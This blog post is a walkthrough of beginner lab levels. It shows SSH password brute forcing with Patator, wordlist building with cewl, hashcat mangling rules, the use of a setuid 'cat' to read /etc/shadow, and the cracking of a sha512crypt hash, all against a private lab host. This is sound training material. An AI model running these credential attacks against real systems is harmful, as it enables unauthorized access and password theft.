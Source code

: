 ```yaml
---
layout: post
title:  "Part 6 - The Hax that Rocks the Cradle Brute Force"
date:   2022-08-26 17:19:23 -0500
categories: thehaxthatrocksthecradle
---
```


<br>
# Level 35 - This One's Not About Brute Force!
Ok, so the rest of these levels will involve brute forcing, but this one doesn't. I just didn't want to have a whole separate page for this one. \\(o_O)/
<br>Sekhmet, in all her anger about Mafdet, also found some other account info!

<details>
<summary>Level 35 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Find out how to make a file executable in Linux.
</span>
</details>
<br>
<details>
<summary>Level 35 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">
Linux doesn't let you run/execute a program unless the file specifically has the permissions set up to do so. Check the permissions with <code>ls -la</code>:
<pre>
sekhmet@thehaxthatrocksthecradle:~$ ls -la runthisthing 
-rw-rw-r-- 1 sekhmet sekhmet 16744 Apr  2  2021 runthisthing
</pre>
<br>
The file permissions are all those letters/symbols at the beginning of the second line, to the left of the number 1. But how do you read all that mess? To fully understand it would require a long explanation, so let's just go with the basics for now and explain it all with some handy color-coding.<br>
<br>
<code>
<span style="color:purple" >-</span>
<span style="color:DarkOrange" >rw-</span>
<span style="color:DarkSlateBlue" >rw-</span>
<span style="color:DeepPink" >r--</span>
 1 
 <span style="color:DarkOrange" >sekhmet </span>
<span style="color:DarkSlateBlue" > sekhmet </span>
 16744 Apr  2  2021 runthisthing</code><br>
<br>
<span style="color:purple" ><code>-</code> - This will typically just be a <code>-</code> if it's a file or a letter <code>d</code> if it's a directory. Ours is a file, we don't need anything else from it here.</span><br>
<span style="color:DarkOrange" ><code>rw-</code> - This indicates that the owner of the file can read it and write to it. A letter means the permission is present, a dash means that permission is not present. The owner in this case is our buddy Sekhmet (the first <code>sekhmet</code> is the owner)</span> <br>
<span style="color:DarkSlateBlue" ><code>rw-</code> - Same thing here, but this is for the owning group. The second <code>sekhmet</code> is the owning group. We can see that the sekhmet group can also read and write to the file</span><br>
<span style="color:DeepPink" ><code>r--</code> - These are the permissions for everyone else. Everyone can read the file, but they can't write to it.</span><br>
<br>
So now what? Well, we want to add <b>execution</b> permissions to the file, which would be represented by an <code>x</code> instead of the <code>-</code> in the third column for each permission set. The easiest way to do that would be:<br>
<code>chmod +x runthisthing</code><br>
<br>
This adds the <code>x</code> to all the permissions for this file. Note that this means everyone can execute this file now! You can get more granular, but we're just going for quick and easy right now.<br>
<br>
Check the permissions after running that and they should be:<br>
<pre>
sekhmet@thehaxthatrocksthecradle:~$ ls -la runthisthing 
-rwxrwxr-x 1 sekhmet sekhmet 16744 Apr  2  2021 runthisthing
</pre>
<br>
Ok, so now you can allegedly execute this file. Right. Let's do that now.<br>
How?<br>
<br>
To run an executable file in the directory you're currently in at the CLI:<br>
<pre>./runthisthing
                                                 >=>                    
                                                 >=>                    
  >==>    >=>   >=>   >==>       >==> >=>  >=> >=>>==> >=>  >=>  >===>  
>>   >=>    >> >=>  >>   >=>   >=>    >=>  >=>   >=>   >=>  >=> >=>     
>>===>>=>    >>     >>===>>=> >=>     >=>  >=>   >=>   >=>  >=>   >==>  
>>         >>  >=>  >>         >=>    >=>  >=>   >=>   >=>  >=>     >=> 
 >====>   >=>   >=>  >====>      >==>   >==>=>    >=>    >==>=> >=> >=> 
                                         
You have executed the program as required
Decode for the password:
ZXhlY3V0aXZlT3JkZXJz
</pre><br>
These people and their encoding!! (╯°□°）╯︵ ┻━┻)<br>
Decode as usual from base64:<br>
<pre>
└─$ hURL -b ZXhlY3V0aXZlT3JkZXJz           

Original string       :: ZXhlY3V0aXZlT3JkZXJz
base64 DEcoded string :: executiveOrders
</pre>

<i>There's a lot more to permissions that I didn't cover - you can certainly find more info online, such as here: <a href="https://linuxhandbook.com/linux-file-permissions/">https://linuxhandbook.com/linux-file-permissions/</a></i>
</span>
</details>
<br>
# Level 36 - This One is About Brute Force! What Does That Mean Anyway?
Let's get into some password attacks!
A short/quick definition of brute forcing an account would be going through a bunch of guesses for the password for the account. There are a few different types. 

A true brute force, or key space brute force is the most ... brutish of them all. For example - we did just that in the earlier examples. Our key space was just 26 letters at first (26 guesses), then 2 digit numbers (100 guesses), then 4 digit numbers. That last one took us up to 10,000 possible guesses (0000-9999). What if we add lowercase letters to that mix?
We'd be up to 1,679,616 guesses. You can see how this starts to get impractical pretty quickly. Enter the dictionary attack!

A dictionary attack uses a list of likely passwords. Where does that list come from? Could be any of a variety of places:
* a breach of a company's database
* a compilation of words from a website the victim frequents
* a list of commonly used passwords
* a list you sat there typing up by hand because ... you were working on your typing skills, maybe?

This type of attack relies on someone using something in your list as their password, so the art of getting a list together is another subject that could make for a book by itself. We will instead take advantage of someone else's work and use a pre-existing list.

<details>
<summary>Level 36 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Your steps for this level:
<ul>
<li>Download the password list</li>
<li>Find a way to perform a brute force password attack against SSH - hint for the hint, look up how to do it with Patator. Hint for that - honestly, just check out patator's awesome help menu from the command line!</li>
<li>Perform the SSH password attack</li>
</ul>
</span>
</details>
<br>
<details>
<summary>Level 36 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">
Your steps for this level:
<ul>
<li>Download the password list</li>
<ul>
<li><code>wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Leaked-Databases/rockyou-15.txt</code><br>
This is a cut down version of a very well known password list. This GitHub repository has a ton of lists for trying to discover/crack all sorts of stuff including usernames, passwords, directories, and more!</li>
</ul>
<li>Find a way to perform a password attack against SSH</li>
<ul>
<li>I'll be using Patator in this case, but there are other applications you could use instead.</li>
<li>If you checked out the tool's help (like I said you should!!) you might have seen something like:
<pre>
└─$ patator --help          
Patator 0.9 (https://github.com/lanjelot/patator) with python-3.10.7
Usage: patator module --help

Available modules:
  + ftp_login     : Brute-force FTP
  + ssh_login     : Brute-force SSH
  + telnet_login  : Brute-force Telnet
... etc
</pre>
Then check out the module specific help:
<pre>
└─$ patator ssh_login --help
Patator 0.9 (https://github.com/lanjelot/patator) with python-3.10.7
Usage: ssh_login <module-options ...> [global-options ...]

Examples:
  ssh_login host=10.0.0.1 user=root password=FILE0 0=passwords.txt -x ignore:mesg='Authentication failed.'

Module options:
  host          : target host
  port          : target port [22]
  user          : usernames to test
  password      : passwords to test
  auth_type     : type of password authentication to use [password|keyboard-interactive|auto]
  keyfile       : file with RSA, DSA or ECDSA private key to test
  persistent    : use persistent connections [1|0] 
</pre>
From the example given and the option descriptions, we can start filling in our environment's info as seen in the next step.
</li>
</ul>
<li>Perform the SSH password attack</li>
<ul>
<li><pre>
└─$ patator ssh_login host=10.0.0.19 user=brutus password=FILE0 0=rockyou-15.txt
21:14:26 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.10.7 at 2022-09-29 21:14 CDT
21:14:26 patator    INFO -                                                                              
21:14:26 patator    INFO - code  size    time | candidate                          |   num | mesg
21:14:26 patator    INFO - -----------------------------------------------------------------------------
21:14:29 patator    INFO - 1     22     3.506 | 123456                             |     1 | Authentication failed.
21:14:29 patator    INFO - 1     22     3.497 | 12345                              |     2 | Authentication failed.
21:14:29 patator    INFO - 1     22     3.506 | 123456789                          |     3 | Authentication failed.
21:14:29 patator    INFO - 1     22     3.502 | iloveyou                           |     5 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.524 | password                           |     4 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.508 | princess                           |     6 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.501 | 1234567                            |     7 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.505 | 12345678                           |     8 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.501 | abc123                             |     9 | Authentication failed.
21:14:30 patator    INFO - 1     22     3.501 | nicole                             |    10 | Authentication failed.
21:14:33 patator    INFO - 1     22     3.496 | daniel                             |    11 | Authentication failed.
</pre>
</li>
<li>I left off the <code>-x ignore:mesg="Authentication failed."</code> in this example just so you could see the process as it tries guessing all the different passwords. You can add that to the end of the command to make the output cleaner. Note that it will look like it's not doing anything for a while if you do that.</li>
<li>...or leave it as is and just scroll through the output a bit to find ...<br>
<pre>
...
21:19:16 patator    INFO - 1     22     3.500 | jessie                             |   215 | Authentication failed.
21:19:16 patator    INFO - 0     30     0.111 | hellokitty                         |   216 | SSH-2.0-OpenSSH_8.9p1 Ubuntu-3
21:19:16 patator    INFO - 1     22     3.495 | jeremy                             |   207 | Authentication failed.
...
</pre>
</li>
<li>The successful login attempt will just show the SSH version on the server in this case.</li>
</ul>
</ul>
</span>
</details>
<br>
# Level 37 - Wordlists are Cool. Kool? Kewl?
Remember how we discussed the fact that wordlists could be pre-made or you could make one of your own?

<details>
<summary>Level 37 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Your steps for this level:
<ul>
<li>Check the webpage in a browser if possible, just to see what you're working with</li>
<li>Check out <code>cewl</code> as Brutus suggested</li>
<li>Use <code>cewl</code> to generate a list of words 8 characters or longer from the target URL </li>
<li>Perform that SSH password attack like in the last level</li>
</ul>
</span>
</details>
<br>
<details>
<summary>Level 37 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">
Your steps for this level:
<ul>
<li>Check the webpage in a browser if possible, just to see what you're working with</li>
<ul>
<li>Just go to the URL in your browser: http://INSERTIPADDRESSHERE:8000/sombra/playoverwatch.com/en-us/heroes/sombra/index.html</li>
</ul>
<li>Check out <code>cewl</code> online as Brutus suggested</li>
<ul>
<li>This will vary of course, I stumbled upon this guide <a href="https://www.geeksforgeeks.org/cewl-tool-creating-custom-wordlists-tool-in-kali-linux/">here.</a></li>
</ul>
<li>Use <code>cewl</code> to generate a list of words 8 characters or longer from the target URL:
<ul>
<li>
<pre>
└─$ cewl -m 8 http://TARGETIPADDRESS:8000/sombra/playoverwatch.com/en-us/heroes/sombra/index.html | tee sombralist.txt
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
Overwatch
Warcraft
BATTLETAG
Resurrected
Hearthstone
...
</pre>
<br>
<code>-m 8</code> - tells <code>cewl</code> to only include words of a minimum 8 characters or more<br>
<code> | tee sombralist.txt </code> - outputs the list to a file, in this case sombralist.txt, but also lets us see it on screen to make sure it looks about right<br>
</li>
</ul>
</li>
<li>Perform that SSH password attack like in the last level</li>
<ul>
<li>Use <code>patator</code> to brute force the SSH server again, just swap out the username and the file name you're using. Refer to level 36's full answer for that command.</li>
</ul>
</ul>
</span>
</details>
<br>
# Level 38 - Mangling
If your wordlist has the password you needed, that's great! What if someone uses a standard word, but kinda changes it a little bit to be all sneaky about things?

For example, what if, instead of:

`password`

The user whose password we're trying to crack uses:

`p@$$w0rd`

Hmm ... see if Sombra has some ideas for you.

<details>
<summary>Level 38 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Your steps for this level:
<ul>
<li>Use <code>cewl</code> to generate a list of words 12 characters or longer from the target URL </li>
<li>Have a look at hashcat mangling rule files</li>
<li>Mangle your newly created wordlist</li>
<li>Perform that SSH password attack like in the last level</li>
</ul>
</span>
</details>
<br>
<details>
<summary>Level 38 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">
Your steps for this level:
<ul>
<li>Use <code>cewl</code> to generate a list of words 12 characters or longer from the target URL </li>
<ul>
<li>
<pre>
└─$ cewl -m 12 http://TARGETIPADDRESS:8000/sombra/playoverwatch.com/en-us/heroes/sombra/index.html | tee sombralist2.txt
</pre>
</li>
</ul>
<li>Have a look at hashcat mangling rule files</li>
<ul>
<li>
<pre>
└─$ ls -la /usr/share/hashcat/rules 
total 2588
...
-rw-r--r-- 1 root root    298 Dec 23  2021 leetspeak.rule
...
</pre>
That one looks like it might be good!
</li>
</ul>
<li>Mangle your newly created wordlist</li>
<ul>
<li><code>hashcat --stdout --rules-file /usr/share/hashcat/rules/leetspeak.rule sombralist2.txt > sombralist2_mangled.txt</code><br>
This command tells hashcat to use the leetspeak rule to "mangle" sombralist2.txt and output the results to sombralist2_mangled.txt (the original file remains intact). Have a look at the results to get an idea of what it did!<br>
For example, that last line, the word <code>Infiltration</code> was mangled to:
<pre>
Infiltr4tion  
Infiltr@tion  
Infiltration  
Infiltration  
Infiltration  
Infiltration  
Infiltration  
Inf1ltrat1on  
Inf!ltrat!on  
Infiltrati0n  
Infiltration  
Infiltration  
Infiltration  
Infil7ra7ion  
Infil+ra+ion  
Infiltration  
Inf1ltr@t10n
</pre>
</li>
</ul>
<li>Perform that SSH password attack like in the last level</li>
<ul>
<li>Use <code>patator</code> to brute force the SSH server again, just swap out the username and the file name you're using. Refer to level 36's full answer for that command.</li>
</ul>
</ul>
</span>
</details>
<br>
# Level 39 - Mangling
You're at the last challenge! This one may cover some new ground for you and take some time to get things figured out - that's ok!

<details>
<summary>Level 39 - Hint</summary>

<br>
<span style="color:DodgerBlue">
Your steps for this level:
<ul>
<li>Figure out which file contains password hashes in Linux and which part is the hash</li>
<li>Take a look at the <b>tools</b> directory and see if you spot anything different about the permissions of one file. If so, what does that mean?</li>
<li>Piece those two bits of info together and get the hash for <b>deanna</b></li>
<li>Download the password list sombra told you about</li>
<li>Use hashcat, the hash, and the password list to crack the hash</li>
</ul>
</span>
</details>
<br>
<details>
<summary>Level 39 - Full Answer</summary>

<br>
<span style="color:MediumSeaGreen">
Your steps for this level:
<ul>
<li>Figure out which file contains password hashes in Linux and which part is the hash</li>
<ul>
<li>Some online searching should get you what you need here.<br>
Bing makes it (mostly) easy in this case:<br>
<image src="/images/shadowfile_bing.png"></image><br>
Note that the full file path is <code>/etc/shadow</code> - if you forget that first slash, you'll be looking for a folder called <code>etc</code> at your current location, which will likely not work, unless you happen to be at <code>/</code>.
</li>
<li>Ok, let's take a look at this file!<br>
<pre>
sombra2@thehaxthatrocksthecradle:~$ cat /etc/shadow
cat: /etc/shadow: Permission denied
</pre>
Hmm ... well, let's keep that file location handy and see if we can use that information later. You know ... by some odd coincidence.</li>
<li>How will you recognize the hash when you see it? You should be able to find that in some search results too, or something like the <a href="https://linux.die.net/man/5/shadow">man page for /etc/shadow</a>:<br>
<blockquote>
Each line of this file contains 9 fields, separated by colons (":"), in the following order:
**login name**
...
**encrypted password**
...
</blockquote>
Your hackery ears should perk up at the part that says <b>password</b>!! Ok, yes, it's encrypted. We'll get to how to handle that. In the meantime though, make a note that you're looking for the second field (as indicated by colons) on each line of that file. You know ... if you can ever open it.
</li>
</ul>
<li>Take a look at the <b>tools</b> directory and see if you spot anything different about the permissions of one file. If so, what does that mean?</li>
<ul>
<li>Let's take a look:<br>
<image src="/images/sombra2_tools.png"></image><br>
Do you see that red highlighting around the <code>cat</code> command? More importantly, do you see that the permissions for this one are:<br>
<code>-rwsr-xr-x</code><br>
instead of <br>
<code>-rwxr-xr-x</code><br>
<br>
What does that <b>s</b> mean?
</li>
<li>Search for something online, like <b>s in linux permissions</b> and you may come across something like <a href="https://unix.stackexchange.com/questions/118853/what-does-the-s-attribute-in-file-permissions-mean">this StackExchange answer:</a><br>
<blockquote>That is the "setuid" bit, which tells the OS to execute that program with the userid of its owner. This is typically used with files owned by root to allow normal users to execute them as root with no external tools (such as `sudo`).</blockquote>
<br>
And yes, I could point you to a more official source like the <a href="https://man7.org/linux/man-pages/man2/setuid.2.html">Linux man pages</a>, but honestly, I find that their explanation might be a little confusing for someone new to all of this:<br>
<blockquote>       **setuid**() sets the effective user ID of the calling process.  If
       the calling process is privileged (more precisely: if the process
       has the **CAP_SETUID** capability in its user namespace), the real
       UID and saved set-user-ID are also set.</blockquote>
<br>
<a href="https://en.wikipedia.org/wiki/Setuid#When_set_on_an_executable_file">Wikipedia</a>'s explanation is pretty understandable too:<br>
<blockquote>When the `setuid` or `setgid` attributes are set on an [executable](https://en.wikipedia.org/wiki/Executable "Executable") file, then any users able to execute the file will automatically execute the file with the privileges of the file's owner (commonly [root](https://en.wikipedia.org/wiki/Superuser "Superuser")) and/or the file's group, depending upon the flags set.</blockquote>
<br>
The reason I bring this up is that sometimes "official" sources are a little hard to understand and it might be worth shopping around online for an explanation to see who might explain it in a way that just clicks with you.
</li>
</ul>

<li>Piece those two bits of info together and get the hash for <b>deanna</b></li>
<ul>
<li>Ok, so now you know which file contains hashes, but you don't have permissions to access it.</li>
<li>You also have an executable file that gives you permissions higher than your own - specifically <b>root</b>! That file just so happens to show the contents of a file.</li>
<li>Put that together and you can use that specific binary/executable file to show the contents of the file that contains the hashes! Like so:<br>
<pre>
sombra2@thehaxthatrocksthecradle:~/tools$ ./cat /etc/shadow
... [snipped for length here] ...
deanna:$6$.2ByfvQVAKkYcMeG$ko7jAgly/HdcYX7q5n7Eviok0HetHS2ltJgNQUTrJeuVBVEY7hmmMn3b9N.5OjcqO0wBb5uRfA6HgDh4edbU5.:19216:0:99999:7:::
</pre>
We got it! You will also see the hashes for all the other accounts on the system as well. For now, let's just go with the <b>deanna</b> line since at this point you should have the password for the other accounts anyway.<br>
Remember that the hash is just the second field in that line, so it's this part here:<br>
<code>
deanna:<span style="color:purple" >$6$.2ByfvQVAKkYcMeG$ko7jAgly/HdcYX7q5n7Eviok0HetHS2ltJgNQUTrJeuVBVEY7hmmMn3b9N.5OjcqO0wBb5uRfA6HgDh4edbU5.</span>:19216:0:99999:7:::
</code><br>
So the hash is just:<br>
<code>$6$.2ByfvQVAKkYcMeG$ko7jAgly/HdcYX7q5n7Eviok0HetHS2ltJgNQUTrJeuVBVEY7hmmMn3b9N.5OjcqO0wBb5uRfA6HgDh4edbU5.
</code><br>
Save that hash to a file on your system however you want in a place you can find it easily later.
</li>
</ul>

<li>Download the password list sombra told you about</li>
<ul>
<li>Remember your friend <code>wget</code>!<br>
<pre>wget 10.0.0.19:8000/sombra_super_password_list.txt
--2022-10-12 20:53:38--  http://10.0.0.19:8000/sombra_super_password_list.txt
Connecting to 10.0.0.19:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 478948 (468K) [text/plain]
Saving to: ‘sombra_super_password_list.txt’

sombra_super_password_list.txt                       100%[===================================================================================================================>] 467.72K  --.-KB/s    in 0.004s  

2022-10-12 20:53:38 (117 MB/s) - ‘sombra_super_password_list.txt’ saved [478948/478948]
</pre>
</li>
</ul>

<li>Use <code>hashcat</code>, the hash, and the password list to crack the hash</li>
<ul>
<li>Again, looking for usage examples online will be helpful here.<br>
<a href="https://linuxhint.com/hashcat-tutorial/">This site</a> has some good examples. Note that <code>hashcat</code> has so many options, not all of the examples will be useful for us here and now. This one matches what we'll be doing though:<br>
<code>hashcat -m 0 -a 0 hashlist wordlist</code><br>
<br>
A bit more explanation might help though:<br>
<ul>
<li>
<code>-m 0</code> - tells <code>hashcat</code> the type of hash we're cracking. NOTE!!!! It's NOT 0 in this case! We need to find our hash type either in the <code>hashcat</code> help or on the site <a href="https://hashcat.net/wiki/doku.php?id=example_hashes">here</a>. If you look at our hash, it starts with a <b>$6$</b>, so look for that character combo on the page and you should find that it's:<br>
<code>1800    |    sha512crypt $6$, SHA512 (Unix)</code><br>
</li>

<li>
<code>-a 0</code> - tells <code>hashcat</code> we're doing a <b>dictionary attack</b>, so all password attempts will come directly from the list, as opposed to <code>hashcat</code> mangling passwords like in our past usage.
</li>

<li>
<code>hashlist</code> - this will be replaced by the name of the file containing your hashes, or in our case, one hash.
</li>

<li>
<code>wordlist</code> - this will be replaced by the name of the file containing your passwords.
</li>

</ul>
</li>

<li>Given all the above, our final command would be something like:<br>
<code>hashcat -m 1800 -a 0 deannahash sombra_super_password_list.txt</code><br>
<code>hashcat</code> outputs a lot of info, but look for something like this:<br>
<pre>
$6$.2ByfvQVAKkYcMeG$ko7jAgly/HdcYX7q5n7Eviok0HetHS2ltJgNQUTrJeuVBVEY7hmmMn3b9N.5OjcqO0wBb5uRfA6HgDh4edbU5.:<span style="color:purple" >knitpurl724</span>
                                                          
Session..........: hashcat
Status...........: Cracked
</pre>
(color coding done by me, not hashcat).
That line that shows the hash:somethingelse? That <b>somethingelse</b> is your cracked password!<br>
<br>

Did you get something like this when you tried to run <code>hashcat</code>?:<br>
<code><span style="color:red" >* Device #1: Not enough allocatable device memory for this attack.</span></code><br>
As of October 2022, the default amount of RAM that the Kali VMware image it set to use is 2GB, which <code>hashcat</code>, in true feline style, decides is just not good enough. If you can, turn that up to 4GB and <code>hashcat</code> should be ok with that.
</li>

</ul>
</ul>
</span>
</details>
<br>